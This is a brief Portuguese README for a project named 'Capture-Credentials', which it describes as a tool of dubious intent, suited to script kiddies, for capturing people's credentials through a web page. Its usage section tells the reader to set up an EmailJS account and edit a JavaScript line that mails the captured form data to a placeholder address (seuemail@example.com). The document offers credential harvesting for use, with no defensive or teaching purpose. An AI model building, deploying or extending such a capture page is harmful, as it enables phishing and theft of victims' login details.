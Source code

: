 # Capture-Credentials
Esse projeto é como um jackpot para "script-kids" já que é de preferência duvidosa, pode ser usado em uma via Web para capturar identificadores. 
# Como usar?
   Crie uma conta no EmailJS (https://www.emailjs.com/) 
Substitua no código:

   // Abre o cliente de e-mail do usuário com os dados preenchidos;
    window.location.href = `mailto:seuemail@example.com?subject=Contato&body=${encodeURIComponent(corpoEmail)}`;
Esse código envia por e-mail.

